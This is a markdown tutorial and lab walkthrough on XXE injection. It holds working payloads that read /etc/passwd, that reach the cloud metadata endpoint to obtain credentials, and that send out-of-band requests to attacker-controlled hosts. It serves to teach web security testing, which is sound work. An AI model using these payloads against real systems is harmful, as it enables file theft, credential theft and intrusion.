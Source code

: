# XML external entity injection (XXE)

`XXE` is a web security vulnerability enabling attackers to manipulate `XML` data processing. It grants unauthorized access to application server files and potential interaction with backend and external systems accessible to the application. In certain cases, `XXE` attacks can be escalated to compromise the underlying server or back-end infrastructure through `SSRF` attacks.

### How do XXE vulnerabilities arise

Applications often utilize `XML` format for data transmission between the browser and server. The server-side `XML` data processing is typically handled by standard libraries or platform `APIs`. `XXE` vulnerabilities occur due to potentially harmful features within the `XML` specification, which are still supported by standard parsers even if unused by the application. `XML` external entities (custom XML entities) are of particular concern as they can retrieve values from external sources outside the declared `DTD`. This poses a security risk, as entities can be defined based on file paths or URLs.

### What are the types of XXE attacks

There are various types of XXE attacks:

- **Exploiting XXE to retrieve files**, where an external entity is defined containing the contents of a file, and returned in the application's response.

- **Exploiting XXE to perform SSRF attacks**, where an external entity is defined based on a URL to a back-end system.

- **Exploiting blind XXE exfiltrate data out-of-band**, where sensitive data is transmitted from the application server to a system that the attacker controls.

- **Exploiting blind XXE to retrieve data via error messages**, where the attacker can trigger a parsing error message containing sensitive data.

### Exploiting XXE to retrieve files

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways: 

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.

- Edit a data value in the `XML` that is returned in the application's response, to make use of the defined external entity.

 For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the /etc/passwd file by submitting the following XXE payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity &xxe; whose value is the contents of the /etc/passwd file and uses the entity within the productId value. This causes the application's response to include the contents of the file: 

```log
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```



> **NOTE**
> 
> With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response. 

#### EX: Exploiting XXE using external entities to retrieve files

![Screenshot from 2023-08-11 12-25-13](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/acfc3651-004e-4f37-a7db-86a498652aa3)

After press `check stock` and capture this request i saw the xml data lets try `XXE`

![Screenshot from 2023-08-11 12-22-30](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/bdf9a7f6-af47-4f68-9b14-fffb0cdfe416)
let's add this payload: 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]
```

and add `&xxe;` in any tages

![Screenshot from 2023-08-11 12-24-10](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/761cf807-0ba7-445f-b96c-67fd1ffe8cf8)
we can get the file `/etc/passwd`

![Screenshot from 2023-08-11 12-24-18](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/70496007-8c6a-4aa0-8f74-12a1e4f6ae6f)

### Exploiting XXE to perform SSRF attacks

XXE attacks have two main impacts: retrieval of sensitive data and `SSRF`. `SSRF` is a severe vulnerability where the server-side application can be manipulated to make HTTP requests to any accessible URL.

To exploit an `XXE` vulnerability for an `SSRF` attack, you define an external `XML` entity using the target URL and incorporate it within a data value. If the defined entity appears in the application's response, you can view the URL's response within the application and interact with the backend system. If not, `blind SSRF` attacks are still possible, which can have significant consequences.

 In the following `XXE` example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure: 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

#### EX: Exploiting XXE to perform SSRF attacks

![Screenshot from 2023-08-11 13-27-47](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/b24bcd49-d2ee-4ed2-bedd-0fe393c34d9d)

After press `check stock` and capture this request i saw the xml data let's try `XXE`

![Screenshot from 2023-08-11 13-37-23](https://github.com/MohammedHawary/CTF-Challenges-Writeups/assets/94152045/1373a20f-df7c-4fed-9512-26dc4081c738)

 let's add this payload:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```

and add `&xxe;` in any tages![Screenshot from 2023-08-11 13-26-39](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/752343e9-dd5f-4e2b-a726-8103f4c9a5c4)

I saw the `latest` directory let's add it in our path and send it again![Screenshot from 2023-08-11 13-26-56](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/fbb8e1a8-e6b7-4b0e-a4f9-25c975725241)

I saw the `meta-data` directory after adding all directory finely I get admin credential![Screenshot from 2023-08-11 13-26-22](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/8b9db249-02ef-4920-a4d2-0dba43c7c4cb)![Screenshot from 2023-08-11 13-27-39](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/f66c9870-9c45-42ce-b1ea-6371ddca9dbb)

### Blind XXE vulnerabilities

**Blind XXE vulnerabilities** occur when an application doesn't reveal external entity values in its responses, making it impossible to directly access server-side files. Despite this limitation, these vulnerabilities can still be discovered and exploited using advanced techniques. Out-of-band methods can be employed to identify vulnerabilities and exfiltrate data, while triggering `XML` parsing errors may expose sensitive information through error messages.

 There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger **out-of-band network interactions**, sometimes exfiltrating sensitive data within the interaction data.

- You can trigger **XML parsing errors** in such a way that the error messages contain sensitive data.

### Detecting blind XXE using out-of-band (OAST) techniques

You can often detect blind XXE using the same technique as for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control.

For example, you would define an external entity as follows:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful. 

#### EX1: Blind XXE with out-of-band interaction

![Screenshot from 2023-08-11 14-05-11](https://github.com/MohammedHawary/CTF-Challenges-Writeups/assets/94152045/bf50c18d-4934-436e-bf3c-6405f838f2a9)
After press `check stock` and capture this request i saw the xml data let's try `XXE`

![Screenshot from 2023-08-11 14-05-28](https://github.com/MohammedHawary/CTF-Challenges-Writeups/assets/94152045/a97a8ead-66e2-4776-b1df-50b2a4ac7115)
 let's use burp colaborator and  add this payload:

```xml
 <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://413sptw6nb67mnwb5rytse12nttjh8.oastify.com"> ]>
```

and add `&xxe;` in any tages

![Screenshot from 2023-08-11 14-06-19](https://github.com/MohammedHawary/CTF-Challenges-Writeups/assets/94152045/87e69785-c106-4f78-abc5-f6f2147d7d7d)

#### EX2:

In certain cases, regular entity-based XXE attacks may be blocked by input validation or XML parser hardening implemented by the application. In such scenarios, XML parameter entities can be utilized as an alternative. These entities are restricted to being referenced within the DTD. Two key points to remember are: XML parameter entities are declared with a percent character preceding the entity name, and they serve the purpose at hand.

For example:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

 And second, parameter entities are referenced using the percent character instead of the usual ampersand: 

```xml
%myparameterentity;
```

 This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.



